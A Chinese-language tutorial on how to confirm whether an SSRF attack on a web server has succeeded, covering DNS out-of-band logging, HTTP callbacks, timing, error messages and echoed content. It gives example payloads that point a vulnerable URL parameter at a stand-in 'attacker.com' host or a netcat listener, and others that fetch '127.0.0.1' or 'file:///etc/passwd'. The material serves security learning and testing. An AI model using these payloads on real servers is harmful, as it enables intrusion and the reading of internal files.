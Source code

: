 ### 如何判断 SSRF 的流量是否攻击成功

**1. 基于DNS记录判断**

这是最常见也最简单的方法之一，利用 **DNS 带外通信**来判断

**原理：** 攻击者在一个可以记录 DNS 解析的域名服务器上，为每个攻击目标生成一个唯一的子域名。然后，在 SSRF 的payload 中，让服务器去请求这个子域名

**如何判断成功：** 如果攻击成功，服务器会尝试解析这个子域名。攻击者的 DNS 服务器会收到一个来自服务器 IP 的 DNS解析请求，从而证明 SSRF 漏洞确实存在，并且服务器执行了我们的请求

**举例：**

- 攻击者在 `attacker.com` 上部署 DNS 服务
- 攻击者构造 payload：`http://vulnerable.com/ssrf?url=http://test12345.attacker.com`
- 如果 SSRF 成功，攻击者的DNS服务器会收到来自 `vulnerable.com` 服务器 IP 的 `test12345.attacker.com` 域名解析请求

**2. 基于 HTTP 请求判断**

如果漏洞允许，我们可以让服务器去请求一个我们控制的 HTTP 服务器

**原理：** 攻击者搭建一个 HTTP 服务器，并在 SSRF 的 payload 中让服务器请求该服务器

**如何判断成功：** 如果 SSRF 成功，攻击者的 HTTP 服务器会收到一个来自目标服务器 IP 的 HTTP 请求。通过查看请求的User-Agent、来源 IP 等信息，可以进一步确认漏洞的存在

**举例：**

- 攻击者在公网IP `1.1.1.1` 上搭建 HTTP 服务（如`nc -lvp 80`）
- 攻击者构造 payload：`http://vulnerable.com/ssrf?url=http://1.1.1.1:80/check.txt`
- 如果 SSRF 成功，攻击者的 HTTP 服务器会收到一个来自 `vulnerable.com` 服务器的 HTTP 请求

**3. 基于时间差判断**

这种方法利用服务器处理特定请求所需的时间来判断，常用于**盲SSRF**场景，即服务器不会返回请求结果

**原理：** 攻击者构造一个SSRF payload，使其请求一个需要耗费较长时间的资源，例如一个不存在或响应很慢的端口，或者一个非常大的文件

**如何判断成功：** 如果 SSRF 成功，服务器的处理时间会显著增加。通过对比执行正常请求和 SSRF 请求的响应时间，如果后者明显更长，则可以初步判断 SSRF 攻击成功

**举例：**

- 构造SSRF payload让服务器请求一个不存在的端口：`http://vulnerable.com/ssrf?url=http://127.0.0.1:65535`
- 正常请求响应时间：`100ms`
- SSRF请求响应时间：`3000ms`（因为连接超时）
- 响应时间明显增加，表明服务器执行了内部请求

**4. 基于错误信息判断**

一些配置不当的应用程序会在 SSRF 失败时，直接返回服务器内部的错误信息

**原理：** 攻击者故意构造一个错误的 SSRF 请求，例如请求一个私有 IP 地址或本地文件，并观察应用程序返回的错误信息

**如何判断成功：** 如果应用程序返回的错误信息包含服务器内部的路径、IP 地址或内部错误代码，如 `Failed to connect to 127.0.0.1` 或 `Permission denied`，则可以确认服务器确实尝试执行了该请求，并且 SSRF 漏洞存在

**5. 基于响应内容判断**

如果 SSRF 漏洞是**可回显**的，攻击者可以直接从服务器的响应中判断攻击是否成功

**原理：** 攻击者构造一个 SSRF payload，让服务器请求内部资源，如 `http://127.0.0.1/` 或 `file:///etc/passwd`

**如何判断成功：** 如果服务器的响应中包含了目标资源的内部内容，例如本地 Web 服务器的欢迎页面、`/etc/passwd` 文件的内容等，那么 SSRF 攻击成功